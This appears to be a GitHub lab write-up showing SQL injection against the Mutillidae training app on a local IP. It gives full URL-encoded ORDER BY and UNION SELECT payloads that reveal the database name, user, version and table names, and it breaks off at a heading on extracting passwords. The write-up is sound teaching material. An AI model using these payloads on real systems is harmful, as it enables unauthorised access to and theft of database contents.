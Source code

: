 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/96099cf7-3d0f-493c-aa7a-0f18aa35a6ac)

After adding the order by 6 into the existing url , the following error statement will be obtained: 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/032fca52-1c39-48cc-9aed-eeacb0ea74a7)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6. 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/fbda5226-c4e8-4c73-a5f2-304d6980a079)

As it is having 5 columns the query worked fine and it provides the correct result 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/7b30686e-1abd-4c9c-ac77-3a17eabd8781)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5). 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/f05dcf50-3f5f-4501-b5e7-898f1c57144f)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 
![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/1d6fdf39-597d-4c23-b324-293ddc658b0b)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/655d9935-6bf2-417d-a615-154e0953b709)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details 
![image](https://github.com/MARXINLIJO/sqlinjection/assets/145742540/638290c7-0f83-4dbf-90b7-2b614f2955d2)

The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.
